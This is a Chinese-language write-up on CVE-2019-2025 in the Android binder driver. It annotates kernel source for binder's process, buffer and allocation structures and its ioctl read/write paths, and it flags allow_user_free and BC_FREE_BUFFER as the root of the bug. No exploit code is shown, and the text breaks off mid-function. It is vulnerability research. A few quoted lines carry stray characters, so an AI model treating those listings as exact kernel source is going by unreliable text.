





# CVE-2019-2025

复现环境： Android 8.0 Linux kernel:Linux localhost 4.4.124+ #1 SMP

## 前提知识

binder是c/s结构 有services client 线程池 还有传输的数据

讲解binder相关的数据结构里面的主要成员，binder的相关函数以及binder的内核缓存区管理

### 相关数据结构

```c
struct binder_proc {//每个进程调用open()打开binder驱动都会创建该结构体，用于管理IPC所需的各种信息
	struct hlist_node proc_node;
	struct rb_root threads;
	struct rb_root nodes;
	struct rb_root refs_by_desc;
	struct rb_root refs_by_node;
	struct list_head waiting_threads;
	int pid;
struct	struct task_struct *tsk;
	struct hlist_node deferred_work_node;
	int deferred_work;
	bool is_dead;

	struct list_head todo;
	struct binder_stats stats;
	struct list_head delivered_death;
	int max_threads;
	int requested_threads;
	int requested_threads_started;
	int tmp_ref;
	struct binder_priority default_priority;
	struct dentry *debugfs_entry;
	struct binder_alloc alloc;
	struct binder_context *context;
	spinlock_t inner_lock;
	spinlock_t outer_lock;
};

```

**.** threads : binder_thread红黑树的根节点 用于管理binder线程池的红黑树

**.** nodes : binder_node红黑树的根节点 用于管理binder实体对象(services组件)的红黑树

**.** refs_by_desc,refs_by_node: 都是binder_ref(client组件)红黑树的根节点，主要是key不同，  用于管理binder引用对象(client组件)的红黑树

**.**    alloc :  binder proc的地址空间(**!!!!**),这个结构体极为重要，是漏洞实现的关键

```c
struct binder_alloc {
	struct mutex mutex;
	struct vm_area_struct *vma;
	struct mm_struct *vma_vm_mm;
	void *buffer;
	ptrdiff_t user_buffer_offset;
	struct list_head buffers;
	struct rb_root free_buffers;
	struct rb_root allocated_buffers;
	size_t free_async_space;
	struct binder_lru_page *pages;
	size_t buffer_size;
	uint32_t buffer_free;
	int pid;
	size_t pages_high;
};

```

**.**buffer : 指向一块大的内核缓存区，Binder驱动程序为了方便它进行管理，会将它划分成若干个小块，这些小块的内核缓冲区使用结构体binder_buffer来描述

**.** buffers：list_head是一个双向链表 ，buffers是双向链表的头部 用来管理buffer里面的binder_buffer ,将      binder_buffer保存在这个列表中，按照地址值从小到大的顺序来排列

**.** buffer_size : 内核缓存区的大小

**.** buffer_free: 空闲内核缓存区的大小

**.** vma : 内核缓存区有两个地址，一个是内核空间地址，另一个是用户空间地址，内核地址是成员buffer,用户地址保存在vma

**.**  user_buffer_offset : 内核缓存区两个地址的差值，也就是内核空间地址和用户空间地址的差值，是个固定的值

**.** pages ： 内核缓存区的物理地址

**.**  free_buffers : 保存空闲的，还没被分配物理页面的小块内核缓存区的红黑树

**.**  allocated_buffers : 保存正在使用的，即已经分配物理页面的小块内核缓存区的红黑树

```c
struct binder_buffer {
	struct list_head entry; /* free and allocated entries by address */
	struct rb_node rb_node; /* free entry by size or allocated entry */
				/* by address */
	unsigned free:1;
	unsigned allow_user_free:1;
	unsigned async_transaction:1;
	unsigned free_in_progress:1;
	unsigned debug_id:28;

	struct binder_transaction *transaction;

	struct binder_node *target_node;
	size_t data_size;
	size_t offsets_size;
	size_t extra_buffers_size;
	void *data;
};
```

位置用来描述一个内核内核缓存区，用来在进程间传输数据的

**.** entry : 作为在binder_alloc中free_buffers和allocated_buffers的节点

**.** free : 表示该内核缓存区是空闲的。

**.** *allow_user_free* : 如果为1，那么service组件会请求Binder驱动程序施放该内核缓存区

**.** transaction :  表示一个内核缓存区交的是哪一个事务

**.** target_node :  哪一个Binder实体对象使用

**.** data : 指向一块大小可变的数据缓存区，用来保存通信数据的，里面保存的数据分为两种类型，其中一种是普通数据，另一种是Binder对象，在数据的后面还跟着一个偏移数组，用来记录数据缓存区中每一个Binder对象在数据缓存区中的位置

**.** data_size : 前面数据缓存区的大小

**.** offsets_size : 后面偏移数组的大小

### binder的相关函数

#### binder_open

```c
static int binder_open(struct inode *nodp, struct file *filp)
{
	struct binder_proc *proc;
	struct binder_device *binder_dev;

	binder_debug(BINDER_DEBUG_OPEN_CLOSE, "binder_open: %d:%d\n",
		     current->group_leader->pid, current->pid);

	proc = kzalloc(sizeof(*proc), GFP_KERNEL); //为binder_proc结构体在分配kernel内存空间
	if (proc == NULL)
		return -ENOMEM;
	spin_lock_init(&proc->inner_lock);
	spin_lock_init(&proc->outer_lock);
	get_task_struct(current->group_leader);
	proc->tsk = current->group_leader; //将当前线程的task保存到binder进程的tsk
	INIT_LIST_HEAD(&proc->todo);//初始化todo列表
	if (binder_supported_policy(current->policy)) {//将当前进程的nice值转换为进程优先级
		proc->default_priority.sched_policy = current->policy;
		proc->default_priority.prio = current->normal_prio;
	} else {
		proc->default_priority.sched_policy = SCHED_NORMAL;
		proc->default_priority.prio = NICE_TO_PRIO(0);
	}

	binder_dev = container_of(filp->private_data, struct binder_device,
				  miscdev);
	proc->context = &binder_dev->context;
	binder_alloc_init(&proc->alloc); //初始化binder_alloc

	binder_stats_created(BINDER_STAT_PROC);//BINDER_PROC对象创建数加1
	proc->pid = current->group_leader->pid;//初始化pid
	INIT_LIST_HEAD(&proc->delivered_death);//初始化已分发的死亡通知列表
	INIT_LIST_HEAD(&proc->waiting_threads);
	filp->private_data = proc;//file文件指针的private_data变量指向binder_proc数据

	mutex_lock(&binder_procs_lock);
	hlist_add_head(&proc->proc_node, &binder_procs);//将proc_node节点添加到binder_procs为表头的队列
	mutex_unlock(&binder_procs_lock);

	if (binder_debugfs_dir_entry_proc) {
		char strbuf[11];

		snprintf(strbuf, sizeof(strbuf), "%u", proc->pid);
		/*
		 * proc debug entries are shared between contexts, so
		 * this will fail if the process tries to open the driver
		 * again with a different context. The priting code will
		 * anyway print all contexts that a given PID has, so this
		 * is not a problem.
		 */
		proc->debugfs_entry = debugfs_create_file(strbuf, S_IRUGO,
			binder_debugfs_dir_entry_proc,
			(void *)(unsigned long)proc->pid,
			&binder_proc_fops);
	}

	return 0;
}
```


创建binder_proc对象，并把当前进程等信息保存到binder_proc对象，然后初始化,该对象管理IPC所需的各种信息并拥有其他结构体的根结构体；再把binder_proc对象保存到文件指针filp，以及把binder_proc加入到全局链表`binder_procs`。

#### binder_update_page_range

```c
static int binder_update_page_range(struct binder_alloc *alloc, int allocate,
				    void *start, void *end)
{
	void *page_addr;
	unsigned long user_page_addr;
	struct binder_lru_page *page;
	struct vm_area_struct *vma = NULL;
	struct mm_struct *mm = NULL;
	bool need_mm = false;

	if (end <= start)//开头 > 结尾 返回
		return 0;

	trace_binder_update_page_range(alloc, allocate, start, end);

	if (allocate == 0)//此处allocate为1，代表分配过程。如果为0则代表释放过程
		goto free_range;

	for (page_addr = start; page_addr < end; page_addr += PAGE_SIZE) {
		page = &alloc->pages[(page_addr - alloc->buffer) / PAGE_SIZE];  //分配一个page的物理内存
		if (!page->page_ptr) {
			need_mm = true;
			break;
		}
	}

	[...]
		page->page_ptr = alloc_page(GFP_KERNEL |
					    __GFP_HIGHMEM |
					    __GFP_ZERO);
		if (!page->page_ptr) {
			pr_err("%d: binder_alloc_buf failed for page at %pK\n",
				alloc->pid, page_addr);
			goto err_alloc_page_failed;
		}
		page->alloc = alloc;
		INIT_LIST_HEAD(&page->lru);

		ret = map_kernel_range_noflush((unsigned long)page_addr,
					       PAGE_SIZE, PAGE_KERNEL,
					       &page->page_ptr);//物理空间映射到虚拟内核空间
		flush_cache_vmap((unsigned long)page_addr,
				(unsigned long)page_addr + PAGE_SIZE);
		if (ret != 1) {
			pr_err("%d: binder_alloc_buf failed to map page at %pK in kernel\n",
			       alloc->pid, page_addr);
			goto err_map_kernel_failed;
		}
		user_page_addr =
			(uintptr_t)page_addr + alloc->user_buffer_offset;//虚拟用户空间
		ret = vm_insert_page(vma, user_page_addr, page[0].page_ptr);//物理空间映射到虚拟进程空间
		if (ret) {
			pr_err("%d: binder_alloc_buf failed to map page at %lx in userspace\n",
			       alloc->pid, user_page_addr);
			goto err_vm_insert_page_failed;
		}

		if (index + 1 > alloc->pages_high)
			alloc->pages_high = index + 1;

		trace_binder_alloc_page_end(alloc, index);
		/* vm_insert_page does not seem to increment the refcount */
	}
	if (mm) {
		up_write(&mm->mmap_sem);
		mmput(mm);
	}
	return 0;

free_range://释放内存，物理地址和内核虚拟地址，用户虚拟地址解除映射的过程
	[...]
}
```

工作如下：


`binder_update_page_range`主要完成工作：分配物理空间，将物理空间映射到内核空间，将物理空间映射到进程空间. 另外，不同参数下该方法也可以释放物理页面。

#### binder_ioctl

binder_ioctl()函数负责在两个进程间收发IPC数据和IPC reply数据。

> ioctl(文件描述符，ioctl命令，数据类型)

(1) 文件描述符，是通过open()方法打开Binder Driver后返回值；

(2) ioctl命令和数据类型是一体的，不同的命令对应不同的数据类型

| ioctl命令                | 数据类型                 | 操作                    |
| ------------------------ | ------------------------ | ----------------------- |
| **BINDER_WRITE_READ**    | struct binder_write_read | 收发Binder IPC数据      |
| BINDER_SET_MAX_THREADS   | __u32                    | 设置Binder线程最大个数  |
| BINDER_SET_CONTEXT_MGR   | __s32                    | 设置Service Manager节点 |
| BINDER_THREAD_EXIT       | __s32                    | 释放Binder线程          |
| BINDER_VERSION           | struct binder_version    | 获取Binder版本信息      |
| BINDER_SET_IDLE_TIMEOUT  | __s64                    | 没有使用                |
| BINDER_SET_IDLE_PRIORITY | __s32                    | 没有使用                |

这些命令中**`BINDER_WRITE_READ`**命令是漏洞的核心

```c
static long binder_ioctl(struct file *filp, unsigned int cmd, unsigned long arg)
{
	int ret;
	struct binder_proc *proc = filp->private_data;
	struct binder_thread *thread;
	unsigned int size = _IOC_SIZE(cmd);
	void __user *ubuf = (void __user *)arg;

	/*pr_info("binder_ioctl: %d:%d %x %lx\n",
			proc->pid, current->pid, cmd, arg);*/

	binder_selftest_alloc(&proc->alloc);

	trace_binder_ioctl(cmd, arg);

	ret = wait_event_interruptible(binder_user_error_wait, binder_stop_on_user_error < 2);
	if (ret)
		goto err_unlocked;

	thread = binder_get_thread(proc);
	if (thread == NULL) {
		ret = -ENOMEM;
		goto err;
	}

	switch (cmd) {
	case BINDER_WRITE_READ://进行binder的读写操作
		ret = binder_ioctl_write_read(filp, cmd, arg, thread);
		if (ret)
			goto err;
		break;
	case BINDER_SET_MAX_THREADS: { ////设置binder最大支持的线程数
		int max_threads;

		if (copy_from_user(&max_threads, ubuf,
				   sizeof(max_threads))) {
			ret = -EINVAL;
			goto err;
		}
		binder_inner_proc_lock(proc);
		proc->max_threads = max_threads;
		binder_inner_proc_unlock(proc);
		break;
	}
	case BINDER_SET_CONTEXT_MGR: //成为binder的上下文管理者，也就是ServiceManager成为守护进程
		ret = binder_ioctl_set_ctx_mgr(filp);
		if (ret)
			goto err;
		break;
	case BINDER_THREAD_EXIT:  //当binder线程退出，释放binder线程
		binder_debug(BINDER_DEBUG_THREADS, "%d:%d exit\n",
			     proc->pid, thread->pid);
		binder_thread_release(proc, thread);
		thread = NULL;
		break;
	case BINDER_VERSION: { //获取binder的版本号
		struct binder_version __user *ver = ubuf;

		if (size != sizeof(struct binder_version)) {
			ret = -EINVAL;
			goto err;
		}
[...]
err_unlocked:
	trace_binder_ioctl_done(ret);
	return ret;
}
```

#### binder_ioctl_write_read

对于ioctl()方法中，传递进来的命令是cmd = `BINDER_WRITE_READ`时执行该方法，arg是一个`binder_write_read`结构体

```c
static int binder_ioctl_write_read(struct file *filp,
				unsigned int cmd, unsigned long arg,
				struct binder_thread *thread)
{
	int ret = 0;
	struct binder_proc *proc = filp->private_data;
	unsigned int size = _IOC_SIZE(cmd);
	void __user *ubuf = (void __user *)arg;
	struct binder_write_read bwr;

	if (size != sizeof(struct binder_write_read)) {
		ret = -EINVAL;
		goto out;
	}
	if (copy_from_user(&bwr, ubuf, sizeof(bwr))) { //把用户空间数据ubuf拷贝到bwr
		ret = -EFAULT;
		goto out;
	}
	binder_debug(BINDER_DEBUG_READ_WRITE,
		     "%d:%d write %lld at %016llx, read %lld at %016llx\n",
		     proc->pid, thread->pid,
		     (u64)bwr.write_size, (u64)bwr.write_buffer,
		     (u64)bwr.read_size, (u64)bwr.read_buffer);

	if (bwr.write_size > 0) { //当写缓存中有数据，则执行binder写操作
		ret = binder_thread_write(proc, thread,
					  bwr.write_buffer,
					  bwr.write_size,
					  &bwr.write_consumed);
		trace_binder_write_done(ret);
		if (ret < 0) {  //当写失败，再将bwr数据写回用户空间，并返回
			bwr.read_consumed = 0;
			if (copy_to_user(ubuf, &bwr, sizeof(bwr)))
				ret = -EFAULT;
			goto out;
		}
	}
	if (bwr.read_size > 0) { //当读缓存中有数据，则执行binder读操作
		ret = binder_thread_read(proc, thread, bwr.read_buffer,
					 bwr.read_size,
					 &bwr.read_consumed,
					 filp->f_flags & O_NONBLOCK);
		trace_binder_read_done(ret);
		binder_inner_proc_lock(proc);
		if (!binder_worklist_empty_ilocked(&proc->todo))
			binder_wakeup_proc_ilocked(proc); //唤醒等待状态的线程
		binder_inner_proc_unlock(proc);
		if (ret < 0) {
			if (copy_to_user(ubuf, &bwr, sizeof(bwr))) //当读失败，再将bwr数据写回用户空间，并返回
				ret = -EFAULT;
			goto out;
		}
	}
	binder_debug(BINDER_DEBUG_READ_WRITE,
		     "%d:%d wrote %lld of %lld, read return %lld of %lld\n",
		     proc->pid, thread->pid,
		     (u64)bwr.write_consumed, (u64)bwr.write_size,
		     (u64)bwr.read_consumed, (u64)bwr.read_size);
	if (copy_to_user(ubuf, &bwr, sizeof(bwr))) {  //将内核数据bwr拷贝到用户空间ubuf
		ret = -EFAULT;
		goto out;
	}
out:
	return ret;
}
```

对于`binder_ioctl_write_read`的流程图，如下：


流程：

- 首先，把用户空间数据ubuf拷贝到内核空间bwr；
- 当bwr写缓存有数据，则执行binder_thread_write；当写失败则将bwr数据写回用户空间并退出；
- 当bwr读缓存有数据，则执行binder_thread_read；当读失败则再将bwr数据写回用户空间并退出；
- 最后，把内核数据bwr拷贝到用户空间ubuf。

这里涉及两个核心方法`binder_thread_write()`和`binder_thread_read()`方法，是漏洞代码的所在，我们来继续分析，但在此之前，还得说一下binder的通信协议

Binder协议包含在IPC数据中，分为两类:

1. `BINDER_COMMAND_PROTOCOL`：binder请求码，以”BC_“开头，简称BC码，用于从IPC层传递到Binder Driver层；
2. `BINDER_RETURN_PROTOCOL` ：binder响应码，以”BR_“开头，简称BR码，用于从Binder Driver层传递到IPC层；

Binder IPC通信至少是两个进程的交互：

- client进程执行binder_thread_write，根据BC_XXX命令，生成相应的binder_work；
- server进程执行binder_thread_read，根据binder_work.type类型，生成BR_XXX，发送到用户空间处理。

过程如下：


#### binder_thread_write

请求处理过程是通过`binder_thread_write()`方法，该方法用于处理Binder协议中的请求码。当binder_buffer存在数据，binder线程的写操作循环执行。

```c
binder_thread_write(){
    while (ptr < end && thread->return_error == BR_OK) {
        get_user(cmd, (uint32_t __user *)ptr)；//获取IPC数据中的Binder协议(BC码)
        switch (cmd) {
            case BC_INCREFS: ...
            case BC_ACQUIRE: ...
            case BC_RELEASE: ...
            case BC_DECREFS: ...
            case BC_INCREFS_DONE: ...
            case BC_ACQUIRE_DONE: ...
            case BC_FREE_BUFFER: ... break;
            
           case BC_TRANSACTION:
		case BC_REPLY: {
			struct binder_transaction_data tr;

			if (copy_from_user(&tr, ptr, sizeof(tr)))
				return -EFAULT;
			ptr += sizeof(tr);
			binder_transaction(proc, thread, &tr,
					   cmd == BC_REPLY, 0);
			break;
		}

            case BC_REGISTER_LOOPER: ...
            case BC_ENTER_LOOPER: ...
            case BC_EXIT_LOOPER: ...
            case BC_REQUEST_DEATH_NOTIFICATION: ...
            case BC_CLEAR_DEATH_NOTIFICATION:  ...
            case BC_DEAD_BINDER_DONE: ...
             case BC_FREE_BUFFER: {
			binder_uintptr_t data_ptr;
			struct binder_buffer *buffer;

			if (get_user(data_ptr, (binder_uintptr_t __user *)ptr))
				return -EFAULT;
			ptr += sizeof(binder_uintptr_t);

			buffer = binder_alloc_prepare_to_free(&proc->alloc,
							      data_ptr);
			if (buffer == NULL) {
				binder_user_error("%d:%d BC_FREE_BUFFER u%016llx no match\n",
					proc->pid, thread->pid, (u64)data_ptr);
				break;
			}
			if (!buffer->allow_user_free) {
				binder_user_error("%d:%d BC_FREE_BUFFER u%016llx matched unreturned buffer\n",
					proc->pid, thread->pid, (u64)data_ptr);
				break;
			}
			[...]
			trace_binder_transaction_buffer_release(buffer);
			binder_transaction_buffer_release(proc, buffer, NULL);
			binder_alloc_free_buf(&proc->alloc, buffer);
			break;
		}
            }
        }
    }
}
```

漏洞出在BC_TRANSACTION和BC_REPLY的binder_transaction函数和BC_FREE_BUFFER中,等到分析漏洞时再分析

#### binder_thread_read

响应处理过程是通过`binder_thread_read()`方法，该方法根据不同的`binder_work->type`以及不同状态，生成相应的响应码。

```c
static int binder_thread_read(struct binder_proc *proc,
			      struct binder_thread *thread,
			      binder_uintptr_t binder_buffer, size_t size,
			      binder_size_t *consumed, int non_block)
{
	void __user *buffer = (void __user *)(uintptr_t)binder_buffer;
	void __user *ptr = buffer + *consumed;
	void __user *end = buffer + size;

	int ret = 0;
	int wait_for_proc_work;

	if (*consumed == 0) {
		if (put_user(BR_NOOP, (uint32_t __user *)ptr))
			return -EFAULT;
		ptr += sizeof(uint32_t);
	}

[....]
    while (1) {
        //当&thread->todo和&proc->todo都为空时，goto到retry标志处，否则往下执行：
        struct binder_transaction_data tr;
        struct binder_transaction *t = NULL;
        switch (w->type) {
          case BINDER_WORK_TRANSACTION: ...
          case BINDER_WORK_TRANSACTION_COMPLETE: ...
          case BINDER_WORK_NODE: ...
          case BINDER_WORK_DEAD_BINDER: ...
          case BINDER_WORK_DEAD_BINDER_AND_CLEAR: ...
          case BINDER_WORK_CLEAR_DEATH_NOTIFICATION: ...
        }
	        ...
    }
    t->buffer->allow_user_free = 1; //漏洞得以实现的关键
		if (cmd == BR_TRANSACTION && !(t->flags & TF_ONE_WAY)) {
			binder_inner_proc_lock(thread->proc);
			t->to_parent = thread->transaction_stack;
			t->to_thread = thread;
			thread->transaction_stack = t;
			binder_inner_proc_unlock(thread->proc);
		} else {
			binder_free_transaction(t);
		}
		break;
	}

```

### binder的内核缓存区管理

#### 分配内核缓冲区

主要是通过binder_alloc_new_buf来实现的

```c
struct binder_buffer *binder_alloc_new_buf(struct binder_alloc *alloc,
					   size_t data_size,
					   size_t offsets_size,
					   size_t extra_buffers_size,
					   int is_async)
{
	struct binder_buffer *buffer;
        
	mutex_lock(&alloc->mutex);
	
	buffer = binder_alloc_new_buf_locked(alloc, data_size, offsets_size,
					     extra_buffers_size, is_async);
				     
	mutex_unlock(&alloc->mutex);
	return buffer;
}

```

加了个锁，然后执行binder_alloc_new_buf_locked

```c
struct binder_buffer *binder_alloc_new_buf_locked(struct binder_alloc *alloc,
						  size_t data_size,
						  size_t offsets_size,
						  size_t extra_buffers_size,
						  int is_async)
{
	struct rb_node *n = alloc->free_buffers.rb_node;
	struct binder_buffer *buffer;
	size_t buffer_size;
	struct rb_node *best_fit = NULL;
	void *has_page_addr;
	void *end_page_addr;
	size_t size, data_offsets_size;
	int ret;

	if (alloc->vma == NULL) {
		pr_err("%d: binder_alloc_buf, no vma\n",
		       alloc->pid);
		return ERR_PTR(-ESRCH);
	}

	data_offsets_size = ALIGN(data_size, sizeof(void *)) +
		ALIGN(offsets_size, sizeof(void *));//data_size是binder_buffer.data中前面数据缓存区的大小 offsers_size是binder_buffer.data中后面偏移数组的大小，所以data_offsets_size是binder_buffer.data的大小
[...]
	size = data_offsets_size + ALIGN(extra_buffers_size, sizeof(void *));//本次请求分配空间的总大小
	
[...]
	/* Pad 0-size buffers so they get assigned unique addresses */
	size = max(size, sizeof(void *));
  //在空闲的节点中，查找大小最合适的buffer，空闲节点是以大小为序组织在红黑树中的
	while (n) {
		buffer = rb_entry(n, struct binder_buffer, rb_node);
		BUG_ON(!buffer->free);
		buffer_size = binder_alloc_buffer_size(alloc, buffer);//获取该节点buffer.data的大小


		if (size < buffer_size) {
			best_fit = n;
			n = n->rb_left;
		} else if (size > buffer_size)
			n = n->rb_right;
		else {
			best_fit = n;
			break;
		}
	}//该循环结束后，best_fit指向空闲节点中，buffer的大小与请求大小最接近且满足请求大小的节点
	if (best_fit == NULL) {
		size_t allocated_buffers = 0;
		size_t largest_alloc_size = 0;
		size_t total_alloc_size = 0;
		size_t free_buffers = 0;
		size_t largest_free_size = 0;
	是	size_t total_free_size = 0;

		for (n = rb_first(&alloc->allocated_buffers); n != NULL;
		     n = rb_next(n)) {
			buffer = rb_entry(n, struct binder_buffer, rb_node);
			buffer_size = binder_alloc_buffer_size(alloc, buffer);
			allocated_buffers++;
			total_alloc_size += buffer_size;
			if (buffer_size > largest_alloc_size)
				largest_alloc_size = buffer_size;
		}
		for (n = rb_first(&alloc->free_buffers); n != NULL;
		     n = rb_next(n)) {
			buffer = rb_entry(n, struct binder_buffer, rb_node);
			buffer_size = binder_alloc_buffer_size(alloc, buffer);
			free_buffers++;
			total_free_size += buffer_size;
			if (buffer_size > largest_free_size)
				largest_free_size = buffer_size;
		}
	[...]
	}
	if (n == NULL) {//没有找到大小与请求大小正好的节点(节点拥有的地址空间本次分配后有剩余)，将buffer和buffer_size修正为best_fit指向节点的地址和大小，如果找到大小相等的，这两个值已经是正确的了，不会执行
		buffer = rb_entry(best_fit, struct binder_buffer, rb_node);
		buffer_size = binder_alloc_buffer_size(alloc, buffer);
	}

	binder_alloc_debug(BINDER_DEBUG_BUFFER_ALLOC,
		     "%d: binder_alloc_buf size %zd got buffer %pK size %zd\n",
		      alloc->pid, size, buffer, buffer_size);
 /*该binder_buffer节点所管理的虚拟地址空间最后一页的起始虚拟地址*/
	has_page_addr =
		(void *)(((uintptr_t)buffer->data + buffer_size) & PAGE_MASK);
	WARN_ON(n && buffer_size != size);
	end_page_addr =  /*请求地址空间中最后一页的页末地址*/
		(void *)PAGE_ALIGN((uintptr_t)buffer->data + size);
	if (end_page_addr > has_page_addr)
		end_page_addr = has_page_addr;
	ret = binder_update_page_range(alloc, 1,
	    (void *)PAGE_ALIGN((uintptr_t)buffer->data), end_page_addr); /*分配物理页框，并和内核态地址和用户地址空间建立映射*/
	if (ret)
		return ERR_PTR(ret);

	if (buffer_size != size) { //找到的数据缓冲区的大小大于请求的buffer大小
		struct binder_buffer *new_buffer;

		new_buffer = kzalloc(sizeof(*buffer), GFP_KERNEL);//再创建一个binder_buffer
		if (!new_buffer) {
			pr_err("%s: %d failed to alloc new buffer struct\n",
			       __func__, alloc->pid);
			goto err_alloc_buf_struct_failed;
		}
		new_buffer->data = (u8 *)buffer->data + size;// 用于管理多出来的数据缓存区
		list_add(&new_buffer->entry, &buffer->entry);//将new_buffer插入buffer的红黑树中
		new_buffer->free = 1; //将new_buffer标记为空闲
		binder_insert_free_buffer(alloc, new_buffer);//将new_buffer插入到空闲的buffer红黑树中去
	}

	rb_erase(best_fit, &alloc->free_buffers);
	buffer->free = 0;//将切割好后大小一样的buffer标记为非空闲
	buffer->free_in_progress = 0;
	binder_insert_allocated_buffer_locked(alloc, buffer);//插入到已分配好的buffer红黑树中
	binder_alloc_debug(BINDER_DEBUG_BUFFER_ALLOC,
		     "%d: binder_alloc_buf size %zd got %pK\n",
		      alloc->pid, size, buffer);
	buffer->data_size = data_size;
	buffer->offsets_size = offsets_size;
	buffer->async_transaction = is_async;
	buffer->extra_buffers_size = extra_buffers_size;
	if (is_async) {
		alloc->free_async_space -= size + sizeof(struct binder_buffer);
		binder_alloc_debug(BINDER_DEBUG_BUFFER_ALLOC_ASYNC,
			     "%d: binder_alloc_buf size %zd async free %zd\n",
			      alloc->pid, size, alloc->free_async_space);
